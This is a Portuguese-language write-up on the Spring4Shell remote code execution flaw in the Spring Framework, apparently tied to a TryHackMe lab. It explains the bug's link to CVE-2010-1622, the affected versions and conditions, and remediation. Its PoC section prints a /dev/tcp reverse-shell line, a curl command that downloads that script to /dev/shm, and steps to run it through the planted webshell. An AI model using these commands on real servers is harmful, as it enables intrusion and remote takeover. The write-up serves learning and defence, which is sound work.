

# _**Contextualização**_
No final de março de 2022, duas vulnerabilidades de execução remota de comandos no framework Java Spring foram tornadas públicas.  

A primeira dessas vulnerabilidades afeta um componente do framework chamado **Spring Cloud Functions**.  
A segunda, considerada mais grave, afeta um componente do **Spring Core**, aumentando significativamente o impacto potencial da falha e rendendo-lhe o nome <mark>Spring4Shell</mark>  

## _**Sobre a vulnerabilidade**_
O Spring4Shell foi originalmente divulgado como um zero-day em uma sequência de tuítes que posteriormente foi excluída  
Ele foi rapidamente identificado como uma forma de contornar o patch do CVE-2010-1622  

Essa vulnerabilidade estava presente em versões anteriores do **Spring Framework** que permitia a execução remota de comandos ao explorar a maneira como o Spring lida com os dados enviados em requisições HTTP  

Para entender o Spring4Shell, é importante compreender a <mark>CVE-2010-1622</mark>  
O _Spring MVC (Model–View–Controller)_ faz parte do Spring Framework e facilita o desenvolvimento de aplicações web seguindo o padrão de projeto MVC  

Uma das funcionalidades do Spring MVC é que ele instancia e popula automaticamente um objeto de uma classe especificada quando uma requisição é feita, com base nos parâmetros enviados ao endpoint  
Em termos simples, isso pode ser abusado para sobrescrever atributos importantes da classe pai, levando à execução remota de código  

**O Spring4Shell funciona de forma semelhante**, contornando as mitigations adicionadas para corrigir o <mark>CVE-2010-1622</mark>  
A maioria dos exploits para a vulnerabilidade Spring4Shell opera forçando a aplicação a gravar um arquivo _.jsp_ malicioso no servidor web  
Essa webshell pode então ser executada para obter execução remota de comandos sobre o alvo  

A vulnerabilidade Spring4Shell afeta o Spring Core em versões anteriores à 5.2, bem como nas versões 5.3.0–17 e 5.2.0–19  
Quando executadas em uma versão do Java Development Kit (JDK) maior ou igual a 9 

Os exploits publicamente disponíveis atualmente funcionam apenas em aplicações implantadas no Apache Tomcat como WARs  
No entanto, os mantenedores do Spring Framework afirmaram que acreditam que podem existir outras formas de explorar a vulnerabilidade  

As condições atuais para a vulnerabilidade podem ser resumidas da seguinte forma:
* JDK 9 ou superior
* Uma versão vulnerável do Spring Framework, anteriores à 5.2 ou 5.2.0–19 ou 5.3.0–17  
* Apache Tomcat como servidor da aplicação Spring, empacotada como um WAR
* Dependência dos componentes spring-webmvc e/ou spring-webflux do Spring Framework

## _**PoC**_
Podemos encontrar o exploit original [aqui neste link](https://github.com/BobTheShoplifter/Spring4Shell-POC)  
A plataforma **TryHackMe** fornece um com algumas alterações  
Execute _./exploit.py -h_ para obter mais informações  

Para conseguir concretizar o _exploit_, basta executar o código e temos uma página com _cmd=_ que podemos acessar  
Vamos obter uma _reverse shell_ agora  
Primeiro, vamos criar um arquivo de shell reverso com o seguinte trecho
> ```bash
> #!/bin/bash
> sh -i &> /dev/tcp/[ip_address]/port] 0>&1
> ```
Em seguida, ligamos um servidor http com ```python3 -m http.server```  
Vamos utilizar o site [de codificação de URL](https://www.urlencoder.org/pt/) para codificar o seguinte comando antes de executar ele após _cmd=_ na página que criamos quando executamos o código  
> ```bash
> curl [vpn_ip_address]/[reverse_shell_file] -o /dev/shm/[reverse_shell_filename]
> ```
Por fim, vamos ativar nosso _listener netcat na porta_ e executar ```bash /dev/shm/[reverse_shell_filename]``` após _cmd=_ para obter nossa **shell reversa**  


## _**Precauções e remediações**_
Felizmente, versões corrigidas do Spring Framework foram lançadas  
Para corrigir o Spring4Shell, certifique-se de estar usando uma versão do Spring lançada após o patch 18 da série 5.3, posterior a 5.3.18, ou após o patch 20 da série 5.2  
Atualizar a versão do framework é suficiente para remover a vulnerabilidade das suas aplicações  

Se a atualização não for possível, é possível mitigar parcialmente essa vulnerabilidade configurando uma lista de bloqueio com padrões de campos vulneráveis
